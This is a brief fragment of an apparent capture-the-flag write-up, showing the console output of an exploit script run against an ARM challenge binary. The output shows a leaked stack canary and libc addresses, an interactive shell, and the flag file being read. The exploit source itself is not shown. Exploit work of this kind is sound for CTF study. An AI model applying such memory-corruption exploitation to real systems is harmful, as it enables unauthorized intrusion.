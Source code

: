The result of running the exploit

```
~/Desktop
▶ python arms.py
[*] '/home/zero/libc-2.19.so'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to armexploit.acebear.site on port 3001: Done
[*] Paused (press any to continue)
[*] Canary: 0xc387b900
[*] Stack: 0xbebfabb1
[*] System: 0xb6eb3210
[*] Switching to interactive mode
cat /home/arm_exploit/flag
AceBear{arm_i5_my_sad_m3m0ry}
exit
[*] Got EOF while reading in interactive
```
